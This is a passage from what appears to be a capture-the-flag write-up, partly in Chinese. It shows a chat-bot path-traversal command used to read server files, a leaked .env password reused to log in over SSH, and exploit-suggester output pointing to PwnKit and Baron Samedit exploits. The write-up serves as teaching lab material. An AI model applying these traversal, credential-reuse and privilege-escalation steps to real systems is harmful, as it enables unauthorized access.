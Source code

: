 ```bash
		#Killing the old process
		pid=$(ps aux|grep -i 'hubot -a rocketchat'|grep -v grep|cut -d " " -f6); 
		kill -9 $pid;
		cd /home/dwight/hubot;
		# Cleaning hubot's log so that it won't grow too large.
		echo "" > /home/dwight/hubot/.hubot.log
		bash /home/dwight/hubot/start_bot.sh&
	else


		echo "[+] Bot running succesfully! `date`";
	fi

	else
		# Restarts bot
		echo "[-] Bot not running! `date`";
		#Killing the old process
		pid=$(ps aux|grep -i 'hubot -a rocketchat'|grep -v grep|cut -d " " -f6); 
		kill -9 $pid;
		cd /home/dwight/hubot;
		bash /home/dwight/hubot/start_bot.sh&
	fi

done
```

`recyclops file ../hubot/start_bot.sh`

```bash
#!/bin/bash
cd /home/dwight/hubot
source /home/dwight/hubot/.env
/home/dwight/hubot/bin/hubot
#cd -
```

`/home/dwight/hubot/.env`

```bash
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
```

利用得到的密码成功登录ssh

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203261559055.png)

```
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: less probable
   Tags: ubuntu=10|11|12|13|14|15|16|17|18|19|20|21,debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
```
